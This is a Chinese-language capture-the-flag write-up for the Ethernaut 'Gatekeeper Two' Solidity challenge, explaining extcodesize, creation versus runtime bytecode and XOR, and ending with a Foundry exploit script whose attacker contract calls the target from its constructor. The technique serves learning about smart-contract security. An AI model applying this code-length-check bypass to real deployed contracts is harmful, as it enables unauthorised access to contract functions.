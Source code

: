 # Level 14 - Gatekeeper Two
## 題目
[Gatekeeper Two](https://ethernaut.openzeppelin.com/level/0x0C791D1923c738AC8c4ACFD0A60382eE5FF08a23)

### 通關條件
守衛帶來了一些新的挑戰，同樣地，你需要注冊為參賽者才能通過這一關
### 提示
- 回想一下你從上一個守衛那學到了什麽，第一道門是一樣的
- 第二道門的 `assembly` 關鍵字可以讓合約去存取 Solidity 非原生的功能。參見 [Solidity Assembly](http://solidity.readthedocs.io/en/v0.4.23/assembly.html)。在這道門的 `extcodesize` 函式，可以用來得到給定地址的合約程式碼長度，你可以在[黃皮書](https://ethereum.github.io/yellowpaper/paper.pdf)的第七章學到更多相關的資訊。
- `^` 字元在第三個門裡是位元運算 (XOR)，在這裡是為了應用另一個常見的位元運算手段 (參見 [Solidity cheatsheet](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet))。[Coin Flip](https://hackmd.io/@D13/ethernaut3) 關卡也是一個想要破這關很好的參考資料。
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
## 解題
- `assembly` 的重點就是可以在合約裡直接操作 opcode (操作碼)，opcode 就是比 solidity 更底層的語言。`assembly` 可以讓你直接使用這些操作碼提升效能並降低 gas 費用；缺點是沒有安全性的檢查或是容易發生一些意外的錯誤
- 這邊提到使用 `extcodesize` 函式，這個函式會回傳輸入地址的合約程式碼長度，正常情況下可以用來判斷這個地址是合約還是 EOA。
- XOR 稱為互斥或，簡單來說就是一種 bit 的運算，算法如下：
一樣為 0，不一樣為 1
    | A   | B   | A^B |
    | --- | --- | --- |
    | 0   | 0   | 0   |
    | 1   | 0   | 1   |
    | 0   | 1   | 1   |
    | 1   | 1   | 0   |


---
跟上一題一樣，將判斷條件拆開來看
### 通過 `gateOne()`
上一題也有一樣的條件，用一樣的方法通過即可
### 通過 `gateTwo()`
第二個條件用到 opcode `extcodesize()`，剛剛有提到他會返回目標合約的程式碼長度， 17 行規定合約的程式碼長度要等於 0，這邊我們只要將攻擊合約的 code 都寫在 `constructor()` 就可以繞過長度檢查了。
```solidity=12
    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }
```
>[!Tip]
>合約要部署的時候會被轉成 bytecode，bytecode 會將合約的 function 分成兩種來儲存：
>  - **Creation**
>  用途：**Creation** 儲存創建合約時會用到的 `constructor()`。它在合約創建過程中被執行，主要負責初始化合約的狀態和變數設定。
>  特點：這部分的 code 在合約部署時會被執行一次，完成合約的部署和初始化。執行完畢後，這部分會被移除，也就是說不會被儲存在區塊中。
>  - **Runtime**
>  用途：**Runtime** 儲存合約部署後實際執行的 function。它處理合約的函數調用和邏輯運算。
>  特點：部署完成後，**Creation** 會被清除，只留下 **Runtime**。合約的所有交互和狀態更新都是通過這部分來完成的。
>
>詳細可以參考以下兩篇：
>- [Deconstructing a Solidity Contract - Part II: Creation vs. Runtime](https://blog.openzeppelin.com/deconstructing-a-solidity-contract-part-ii-creation-vs-runtime-6b9d60ecb44c)
>- [深入解析Solidity合約](https://medium.com/taipei-ethereum-meetup/%E6%B7%B1%E5%85%A5%E8%A7%A3%E6%9E%90solidity%E5%90%88%E7%B4%84-4213c8c7dfa0)

關於這類型的攻擊也可以參考 [WTF Solidity 合约安全: S08. 绕过合约长度检查
](https://github.com/AmazingAng/WTF-Solidity/blob/main/S08_ContractCheck/readme.md)
### 通過 `gateThree(bytes8 _gateKey)`
```solidity=21
    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }
```
第三個條件要判斷 `msg.sender`, `_gateKey` 兩個變數經過一些轉換後再做 XOR 運算，出來的答案是否等於 `uint64` 的最大值；就是在問 `A^B == C?` 的問題
XOR 具有 `A^B=C, A^C=B` 的特性。所以我們只要將 `msg.sender` 與 `type(uint64).max)` 做 XOR 運算就可以得到 `_gateKey`

重新統整一下攻擊的設計重點：
  1. 呼叫另一個攻擊合約
  2. 攻擊實作在 `constructor()` 中
  3. `_gateKey = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max;`
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/14_GatekeeperTwo.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        GatekeeperTwoAttacker attacker = new GatekeeperTwoAttacker(your_challenge_address);    

        vm.stopBroadcast();
    }
}

contract GatekeeperTwoAttacker {

    constructor(address _target) {
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max;
        (bool result,) = _target.call(abi.encodeWithSignature("enter(bytes8)",bytes8(key)));
    }
}
```
